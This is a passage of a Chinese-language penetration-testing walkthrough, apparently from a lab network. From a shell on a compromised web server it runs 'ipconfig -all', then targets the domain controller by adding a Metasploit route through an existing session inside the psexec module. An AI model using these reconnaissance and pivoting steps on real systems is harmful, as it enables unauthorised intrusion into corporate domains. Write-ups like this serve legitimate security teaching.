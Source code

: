 ```

C:\xampp\htdocs>ipconfig -all
ipconfig -all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : IT-MANAGE-PC
   Primary Dns Suffix  . . . . . . . : gbox.com
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : us-west-2.ec2-utilities.amazonaws.com
                                       ec2.internal
                                       us-east-1.ec2-utilities.amazonaws.com
                                       compute-1.internal
                                       us-west-2.compute.internal
                                       gbox.com

Ethernet adapter Local Area Connection 3:

   Connection-specific DNS Suffix  . : us-west-2.compute.internal
   Description . . . . . . . . . . . : AWS PV Network Device #0
   Physical Address. . . . . . . . . : 0A-D9-E6-59-35-F0
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::4171:a218:74ca:871f%13(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.0.1.26(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Lease Obtained. . . . . . . . . . : Wednesday, May 30, 2018 4:32:21 AM
   Lease Expires . . . . . . . . . . : Thursday, May 31, 2018 3:02:46 AM
   Default Gateway . . . . . . . . . : 10.0.1.1
   DHCP Server . . . . . . . . . . . : 10.0.1.1
   DHCPv6 IAID . . . . . . . . . . . : 302649180
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-22-9D-15-7F-0A-0F-5C-B0-05-5E
   DNS Servers . . . . . . . . . . . : 10.0.1.7
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.us-west-2.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : us-west-2.compute.internal
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

Tunnel adapter Local Area Connection* 11:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Microsoft Teredo Tunneling Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```
那么接下来，我们的下一个目标就是IP为`10.0.1.7`的域控服务器了。
经过一系列测试，发现目标机似乎只接受来自IP`10.0.1.26`(Session 5)的流量，因此我们需要先添加一个专门的路由使我们的攻击机(10.0.0.5)流量可以抵达目标主机(10.0.1.7)。
```
msf exploit(psexec) > route add 10.0.1.7 255.255.255.255 5
msf exploit(psexec) > route print

IPv4 Active Routing Table
```